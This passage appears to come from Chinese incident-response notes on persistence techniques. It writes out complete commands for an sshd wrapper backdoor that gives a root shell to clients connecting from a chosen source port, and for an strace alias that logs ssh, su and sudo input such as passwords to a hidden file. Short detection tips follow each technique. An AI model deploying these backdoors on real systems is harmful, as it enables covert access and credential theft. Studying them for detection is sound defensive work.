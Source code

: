 简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。

服务端：

```text
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```

客户端：

```text
socat STDIO TCP4:target_ip:22,sourceport=13377

#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

![](https://github.com/AppleTu/Emergency-Response-Notes/tree/48fb22e36edcdb442629c501e4581ae846370adf/第三章：权限维持篇/image/privilege-5-5.png)

排查技巧：

```text
# ls -al /usr/sbin/sshd
# cat /usr/sbin/sshd
可通过重装ssh服务恢复。
```

**6、strace后门**

通过命令替换动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。

```text
#vim /etc/bashrc
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
# source /root/.bashrc
```

![](https://github.com/AppleTu/Emergency-Response-Notes/tree/48fb22e36edcdb442629c501e4581ae846370adf/第三章：权限维持篇/image/privilege-5-5-1.png)

排查技巧：使用`alias`即可发现异常。

![](https://github.com/AppleTu/Emergency-Response-Notes/tree/48fb22e36edcdb442629c501e4581ae846370adf/第三章：权限维持篇/image/privilege-5-5-2.png)

**7、crontab反弹shell**

crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。
